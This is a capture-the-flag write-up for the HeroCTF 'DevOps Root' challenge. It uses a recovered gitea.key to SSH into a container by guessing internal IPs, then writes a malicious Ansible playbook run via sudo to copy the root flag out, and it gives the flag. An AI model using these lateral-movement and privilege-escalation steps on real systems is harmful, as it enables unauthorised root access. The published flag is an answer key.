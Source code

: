 # DevOps Root

### Category

Box

### Description

Can you find the **root.txt flag** on the box ?

URL : **http://box.heroctf.fr** (same as before)

Format : **Hero{flag}**<br>
Author : **xanhacks**

### Write up

Once you are on the gitea docker, you will find a **gitea.key**. You can find your docker internal IP with this command :

```
@jenkins $ hostname -I
172.27.0.1
```

So know you can try to log in to gitea by guessing his IP address.

```
@jenkins $ ssh git@172.27.0.2 -i gitea.key
Not working
@jenkins $ ssh git@172.27.0.3 -i gitea.key
Not working
@jenkins $ ssh git@172.27.0.4 -i gitea.key
@gitea $
```

If you do `sudo -l` you can see that you can execute `ansible-playbook` with `sudo`.
Let's create a malicious playbook.

```yaml
---
- name: Privesc
  hosts: localhost
  gather_facts: no

  tasks:
    - name: Flag
      shell: cp /root/root.txt /tmp/root.txt && chmod 777 /tmp/root.txt 
```

Now you can read the flag :)

```
@gitea $ cat /tmp/root.txt
Hero{ce4e994cb477dec9b1ea876db647c562}
```

### Flag

Hero{ce4e994cb477dec9b1ea876db647c562}
